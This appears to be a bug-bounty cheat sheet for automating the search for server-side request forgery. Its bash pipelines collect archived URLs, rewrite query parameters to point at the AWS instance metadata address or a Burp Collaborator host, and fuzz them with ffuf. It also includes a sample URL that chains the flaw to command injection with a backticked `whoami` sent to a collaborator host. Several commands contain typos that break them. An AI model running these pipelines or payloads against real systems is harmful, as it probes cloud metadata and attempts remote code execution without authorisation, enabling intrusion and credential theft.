 
## Accessing SSRF metadata with automation by just using curl and bash

### TIPs 1

**Command for getting URLs**
```bash
waybackurls target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u |anew | httpx -silent | qsreplace 'http://169.254.169.254/latest/meta-data/hostname' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
### TIPs 2
**Find Blind SSRF with automation by just using curl and bash**
```bash
waybaclurls target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u | anew | httpx -silent | tee all-urls.txt
cat all-urls.txt | gf ssrf | tee ssrf.txt

# Finally we will use ffuf and burp collaboraotr client
cat ssrf.txt | qsreplace "YOUR BURP URL" | tee ssrf-fuzz.txt
ffuf -c ssrf-fuzz.txt -u FUZZ

```
### TIPs 3
```bash
#Gather URLs
gau -subs example.com 
waybackurls example.com
# Else You can use like this;
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u | tee ssrf.txt

# Now we use fuzz the url for blind ssrf.
cat ssrf.txt | qsreplace 'http://YOUR.burpcolaborator.net' | tee ssrf-fuzz.txt
ffuf -c -w ssrf-fuzz.txt -u FUZZ -t 200
#Now we will check whetherwe get any http request hit on our burp collaborator server.
```
**If you get any http ping back on burpcolaborator then try to chain with RCE**

**http:/devtest.exampl.com/import/picture?next_image=http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net?`whoami`**


### TIPs 4

**Gather all target URLs using wayback,gau**
```bash
gau -subs example.com | tee gau-urls.txt
waybackurl example.com | tee wayback.txt
subfinder -d example.com -silent | waybackurls | sort -u | tee urls.txt
cat *.txt | grep "=" | sort -u | grep "?" | httpx -silent | tee fuzz.txt

#Here we use magicparameter sparing
xrags -a ~/magicparameter/ssrf.txt -l@ bash -c 'for url in$(cat fuzz.txt); do echo "$url&@=http://burpcolaborator.net";done' | httpx -silent http-proxy http://127.0.0.1:8080
```
#So that to fuzzing further to get AWS internal metadata for the vulnerable domain like these:

**This all method for Blind SSRF, You can increase this impact to chain with RCE.openredirect..etc vulnerability**









